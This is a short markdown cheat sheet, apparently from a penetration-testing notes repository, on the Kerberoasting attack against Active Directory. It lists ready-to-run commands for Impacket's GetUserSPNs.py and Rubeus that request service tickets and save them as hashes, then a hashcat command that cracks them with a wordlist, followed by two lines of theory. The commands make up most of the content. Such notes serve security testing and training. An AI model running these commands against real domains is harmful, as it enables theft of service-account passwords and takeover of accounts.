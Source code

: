 # Kerberoasting

## Tools
- `Rubeus` (Windows)
- `GetUserSPNs.py` (Impacket)

## Commands
```bash
# Impacket (request TGS)
GetUserSPNs.py DOMAIN/user:password -dc-ip DC_IP -request -outputfile hashes.txt

# Rubeus (auto-crack)
Rubeus.exe kerberoast /outfile:hashes.txt

# Crack with Hashcat
hashcat -m 13100 hashes.txt rockyou.txt
```
## Theory
- Targets **service accounts** with SPNs.
- TGS tickets encrypted with **account's password**.